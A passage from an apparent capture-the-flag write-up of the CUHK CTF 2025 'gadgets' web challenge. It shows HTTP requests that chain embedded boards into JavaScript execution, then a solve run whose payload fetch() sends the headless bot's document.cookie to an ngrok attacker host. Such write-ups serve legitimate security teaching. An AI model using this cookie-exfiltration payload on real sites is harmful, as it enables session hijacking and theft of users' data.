 - Create board 2: Embed board 1 using board type `gadgets.board`

```http
POST /board HTTP/1.1
Host: localhost:25054


```

Board 2 ID: `0aba5d06-4e98-496c-8ca6-0d6b06240961`.

```http
PUT /board/0aba5d06-4e98-496c-8ca6-0d6b06240961 HTTP/1.1
Host: localhost:25054
Content-Type: application/json
Content-Length: 97

{"content":{"anything":{"type":"gadget.board","boardId":"dce78f03-820c-418f-891f-a49da7e3efe6"}}}
```

Finally, go to board 2:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CUHK-CTF-2025/images/Pasted%20image%2020251004173904.png)

Nice! We can now execute arbitrary JavaScript code!

## Exploitation

Armed with above information, we can now exfiltrate the headless browser's `flag` cookie to our attacker server!

To automate the above steps, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

- Start our attacker web server

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:18:35(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

- Setup port forwarding via [ngrok](https://ngrok.com/)

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:18:37(HKT)]
└> ngrok tcp 8000            
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11851 -> localhost:8000                             
[...]
```

- Run the solve script

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:18:31(HKT)]
└> python3 solve.py
[+] Created 2 boards. Board 1 ID: 9768a1ae-3b52-4578-a703-2ee01260a1f0 | Board 2 ID: f4f52818-d924-4920-b051-96105030a491
[+] Created new gadget for board 1. Data: {'type': 'functions.sendToParent', 'executeFunction': True, 'arguments': [''], 'functionString': 'fetch(`//0.tcp.ap.ngrok.io:11851/?${document.cookie}`)'}
[+] Created new gadget for board 2. Data: {'type': 'gadget.board', 'boardId': '9768a1ae-3b52-4578-a703-2ee01260a1f0'}
[*] Reporting URL: http://chall-b.25.cuhkctf.org:25053/f4f52818-d924-4920-b051-96105030a491
[+] Reported board 2 to the bot
```
